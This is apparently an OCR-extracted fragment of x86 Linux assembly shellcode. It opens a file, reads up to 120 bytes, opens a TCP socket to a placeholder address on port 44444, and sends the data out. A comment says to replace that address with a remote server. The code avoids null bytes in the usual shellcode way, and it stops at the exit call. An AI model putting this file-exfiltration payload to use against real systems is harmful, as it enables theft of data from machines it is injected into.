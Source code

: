     ;int openat(int dirfd, const char *pathname, int flags) syscall 0x127
    mov ax, 0x127
    mov bx, -100   ; AT_FDCWD
    mov ecx, esp   ; from pushes
    xor edx, edx   ; O_RDONLY (0)
    int 0x80

    ; ssize_t readv(int fd, const struct iovec *iov, int iovcnt) syscall 0x91
    mov ebx, eax  ; FD in EBX
    sub esp, 0x78 ; reserve 120 bytes for 
    mov ecx, esp  ;
    mov edi, ecx  ; Save buffer address for later usage
    push 0x78     ; iov_len
    push ecx      ; point to this buffer (*iov_base)
    mov ecx, esp
    push ecx      ; point to iovec struct
    xor eax, eax  
    mov al, 0x91
    inc edx       ; iovcnt = 1
    int 0x80
    mov edx, eax  ; Save the length of the string in edx

    ; int socketcall(int call, unsigned long *args) syscall 0x66
    ; sockfd = socket(socket_family = 2 (PF_INET), socket_type = 1 (SOCK_STREAM), protocol = 0)
    xor eax, eax
    mov al, 0x66 ; sys_socketcall
    xor ebx, ebx
    push ebx      ; push 0 (protocol)
    inc ebx       ; 
    push ebx      ; socket_type = 1 (SOCK_STREAM)
    inc ebx
    push ebx      ; socket_family = 2 (PF_INET)
    dec ebx       ; SYS_SOCKET ebx = 1 
    mov ecx, esp  ; ecx contains reference to socket arguments we just pushed
    int 0x80
    mov esi, eax  ; Save sockfd

    ; int socketcall(int call, unsigned long *args) syscall 0x66
    ; connect(sockfd, &sockaddr, addrlen)    
    xor eax, eax
    mov al, 0x66 ; sys_socketcall
    push DWORD 0x0101017f ; 127.1.1.1 to avoid null bytes, replace this with remote server
    push WORD 0x9cad  ; port 44444
    inc ebx      ; AF_INET = 2
    push bx      ; push AF_INET
    mov ecx, esp ; sockaddr pointer
    push BYTE 16 ; sizeof(sockaddr) = 16
    push ecx     ; pointer to sockaddr
    push esi     ; pointer to sockfd
    mov ecx, esp ; socket arguments to socketcall
    inc ebx      ; SYS_CONNECT, ebx = 3
    int 0x80

    ; int socketcall(int call, unsigned long *args) syscall 0x66
    ; ssize_t send(int sockfd, const void *buf, size_t len, int flags);
    xor eax, eax
    push eax     ; flags = 0
    mov al, 0x66 ; sys_socketcall
    push edx     ; buf_len (previously saved in edx)
    push edi     ; buf
    push esi     ; sockfd
    mov ecx, esp ; socket arguments to socketcall
    mov bl, 0x9  ; SOCKET_SEND
    int 0x80

    ;int exit(0)